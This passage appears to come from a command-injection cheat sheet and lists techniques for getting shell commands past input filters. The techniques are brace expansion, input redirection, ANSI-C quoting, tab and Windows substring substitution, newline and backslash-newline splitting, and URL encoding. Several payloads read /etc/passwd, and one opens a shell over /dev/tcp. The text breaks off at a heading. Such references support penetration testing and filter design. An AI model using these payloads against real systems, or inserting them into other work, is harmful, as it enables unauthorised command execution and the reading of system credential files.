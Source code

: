 * In some shells, brace expansion generates arbitrary strings. When executed, the shell will treat the items inside the braces as separate commands or arguments.

```
  {cat,/etc/passwd}
```

* Input redirection. The < character tells the shell to read the contents of the file specified.

```
  cat</etc/passwd
  sh</dev/tcp/127.0.0.1/4242
```

* ANSI-C Quoting

```
  X=$'uname\x20-a'&&$X
```

* The tab character can sometimes be used as an alternative to spaces. In ASCII, the tab character is represented by the hexadecimal value `09`.

```
  ;ls%09-al%09/home
```

* In Windows, `%VARIABLE:~start,length%` is a syntax used for substring operations on environment variables.

```
  ping%CommonProgramFiles:~10,-18%127.0.0.1
  ping%PROGRAMFILES:~10,-5%127.0.0.1
```

### Bypass with a line return

Commands can also be run in sequence with newlines

```bash
original_cmd_by_server
ls
```

### Bypass with backslash newline

* Commands can be broken into parts by using backslash followed by a newline

```
  $ cat /et\
  c/pa\
  sswd
```

* URL encoded form would look like this:

```
  cat%20/et%5C%0Ac/pa%5C%0Asswd
```

### Bypass characters filter via hex encoding
